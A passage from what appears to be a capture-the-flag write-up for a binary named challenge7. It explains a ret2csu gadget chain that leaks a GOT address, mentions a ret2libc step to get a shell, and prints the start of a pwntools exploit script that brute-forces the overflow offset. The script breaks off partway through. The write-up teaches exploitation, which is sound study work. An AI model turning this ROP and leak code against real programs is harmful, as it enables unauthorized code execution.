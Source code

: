 Our payload for the leak looks like this:

```python
def gadgets(payload, g1, g2):
  payload += p64(g1)          # g1
  payload += p64(0)           # pop rbx
  payload += p64(1)           # pop rbp
  payload += p64(e.got.write) # pop r12 -> call
  payload += p64(1)           # pop r13 -> rdi
  payload += p64(e.got.write) # pop r14 -> rsi
  payload += p64(0x8)         # pop r15 -> rdx
  payload += p64(g2)          # ret
  payload += p64(0)*7         # pops
  payload += p64(e.sym.vulnerable_function)  # return to vulnerable function
  return payload
```

We also need to 0 `rbx`, so that it calls `[r12]` only and insert 1 to `rbp` to pass the comparison here:

```gdb
0x0000000000400999 <+73>:	call   QWORD PTR [r12+rbx*8]
0x000000000040099d <+77>:	add    rbx,0x1
0x00000000004009a1 <+81>:	cmp    rbp,rbx
```

After we get the leak with the usual way, we perform a `retlibc` attack, shown at challenge6, to get shell.

### Exploit 📜

```python
#!/usr/bin/python3.8
import warnings
from pwn import *
from termcolor import colored
warnings.filterwarnings("ignore")
context.arch = "amd64"

fname = "./challenge7" 

e     = ELF(fname)
rop   = ROP(e)
libc  = ELF("./libc.so.6") 

LOCAL = False

prompt = ">"

def find_boffset(max_num):
  # Avoid spamming
  context.log_level = "error"
  print(colored("\n[*] Searching for Overflow Offset..", "blue"))
  for i in range(1, max_num): 
    # Open connection
    r = process(fname)
    r.sendlineafter(prompt, "A"*i)
    
    # Recv everything
    r.recvall(timeout=0.5)
    
    # If the exit code == -1 (SegFault)
    if r.poll() == -11:
      if i%8==0:
        print(colored("\n[+] Buffer Overflow Offset found at: {}".format(i), "green"))
        r.close()
        return i
```